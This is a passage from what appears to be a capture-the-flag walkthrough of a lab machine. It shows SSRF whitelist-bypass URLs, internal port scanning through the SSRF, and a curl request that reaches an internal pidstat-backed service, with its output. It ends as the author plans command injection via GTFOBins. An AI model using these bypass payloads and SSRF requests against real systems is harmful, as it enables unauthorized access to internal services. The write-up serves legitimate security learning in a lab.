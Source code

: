 ```
http://boxing.hmv#127.0.0.1
or
http://boxing.hmv@127.0.0.1
```
{: .nolineno}
![](Pasted%20image%2020250626173205.png)
_SSRF whitelisting filter bypass payloads that let us see port 80 of server_

Now I can see the port 80 of this site is loaded so lets find out which other ports are open internally and not visible to externally through this SSRF vulnerability 🔻

I used a command port numbers to get this scans done with this wordlists : [Top nmap 10000 ports](https://github.com/HeckerBirb/top-nmap-ports-csv/blob/master/top-10000-most-popular-tcp-ports-nmap-sorted.csv)

![](Pasted%20image%2020250624151045.png)
_Other ports that are internally open in server and not externally visible_

I got a hit on port 5000 lets see the contents I got this input field again this time it is <b><span style="color:rgb(255, 0, 0)">processName</span></b> .

![](Pasted%20image%2020250627091822.png)
_Port 5000 internal port_

After some headaches I got that some process name commands gives some outputs like `system`,`asd`,`systemd` like that and that is also only visible through curl execution like this 🔻

![](Pasted%20image%2020250627092510.png)
_This input field lets execute `pidstat` tool ouput_

```bash
└─$ curl -s -X POST "http://staging-env.boxing.hmv/index.php?url=http%3A%2F%2Fboxing.hmv%40127.0.0.1%3A5000?processName=system" | grep '<pre>' -A 8
<div class='output'><pre>Linux 6.1.0-17-amd64 (boxing) 	27/06/2025 	_x86_64_	(1 CPU)

05:53:49      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
05:53:49        0         1    0,13    0,18    0,00    0,52    0,31     0  systemd
05:53:49        0       220    0,02    0,02    0,00    0,13    0,05     0  systemd-journal
05:53:49        0       237    0,04    0,04    0,00    0,25    0,08     0  systemd-udevd
05:53:49      997       267    0,02    0,01    0,00    0,25    0,03     0  systemd-timesyn
05:53:49        0       454    0,02    0,01    0,00    0,14    0,03     0  systemd-logind
</pre></div></body>

```
{: .nolineno}
That command behind this execution is <b><span style="color:rgb(253, 119, 248)">pidstat tool</span></b> that result in this output 🔻

![](Pasted%20image%2020250627094211.png)
_From GTFOBIN pidstat commands_

Lets apply this command if this `pidstat` is behind this script then we need a command along with another command for `command execution`.
